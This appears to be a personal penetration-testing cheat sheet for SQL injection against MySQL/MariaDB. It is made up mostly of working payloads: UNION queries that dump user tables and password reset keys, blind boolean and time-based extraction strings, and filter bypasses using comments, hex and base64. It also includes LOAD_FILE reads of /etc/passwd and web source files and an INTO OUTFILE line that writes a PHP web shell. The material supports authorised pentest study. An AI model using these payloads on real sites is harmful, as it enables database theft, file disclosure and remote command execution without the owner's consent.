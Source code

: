 ## MySQL/MariaDB:

    https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
    Enabling Database Logging:
        /etc/mysql/my.cnf or /etc/my.cnf or /etc/my.cnf.d/mysql-server.cnf: uncomment general_log_file and general_log; restart w/ sudo systemctl restart mysql[d]; or add log=/var/log/mysql/mysqld.log and log-error=/var/log/mysql/mysqld.log under [mysqld]
        Debug SQL Queries:  sudo tail -f /var/log/mysql/mysql.log  
    Stacking: PyMysql supports if "multi=True" is set
        MySQL does not support stack query with PHP, ASP.NET, Java
        If supported: trying adding an INSERT or UPDATE statement
    SELECT Statements:
        Try adding a UNION ALL:  SELECT ... LIKE offsec_scope" UNION ALL SELECT 1,2,3,4,@@version#
            offsec_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
            offsec_scope" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
            offsec_scope" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
    Blind Boolean-Based SQLI:
        Basic:  admin' and substring(password, 1, 1) = '0' -- -
        Establish Baseline, test known:
            True: AAAA')/**/or/**/(select/**/1)=1%23
            False: AAAA')/**/or/**/(select/**/1)=0%23
            %23=End of Trans. Blk.
        Extracting Info:
            Version: normally: select/**/version();
            We have to do by character:
                select/**/(substring((select/**/version()),1,1))='5';
                    Better: avoid filters, convert to ascii:  select/**/ascii(substring((select/**/version()),1,1))=52;
                For us:  q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23
        Another Example (SELECT LIKE-injection):
            zzz%'/**/or/**/(select/**/ascii(substring((select/**/[QUERY]),[OFFSET],1)))=[CHAR];#    //(assuming zzz doesn't exist)
                SELECT * FROM `Users` WHERE email LIKE 'zzz%'/**/or/**/(select/**/ascii(substring((select/**/user()),1,1)))=100;#'%'
        SUBSTRING/SUBSTR - starts at 1,1 (start position, length)
        LIMIT delimiter - MySQL: starts at [0,]1 ([offset,] row count); PostgreSQL: just # of result records to display
    Blind Time-Based:
        1 UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM users WHERE user_id = 1;
        select if(substring(bin(ascii(substring((select @@version),1,1))),sleep(10),0)=TRUE,3,4)
        BASE_QUERY = "root' and 1=if(substring({},{},1)=TRUE,sleep(1),2)– "
    Conditional Error:  SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
    Troubleshooting/Filters:
        Space Restriction Bypass:  select/**/1;
        Hex (Quotes Restriction Bypass) - Automatically Decoded:
            select concat(0x31333337,0x206840783072) -> Same as: select concat('1337',' h@x0r')
            ex. SELECT 0x6a6f726765637466       #SELECT 'jorgectf'
            hex(load_file('/etc/passwd'))
            load_file(0x2e2e2f6574632f706173737764)
        Base64:  SELECT FROM_BASE64('Q2F0');    #cat
            TO_base64(LOAD_FILE('/var/www/html/index.php'))  
        Collation Error Fix:
            Check Injection Point Collation:  offsec_scope" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
            Then Use:  offsec_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
    Read File:  …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’)        #priv       SELECT LOAD_FILE(0x633A5C626F6F742E696E69)
        load_file('/etc/passwd') INTO OUTFILE '/var/www/html/shell.php'--
    Write to File:  SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’;    #priv
        Write PHP Shell:  SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'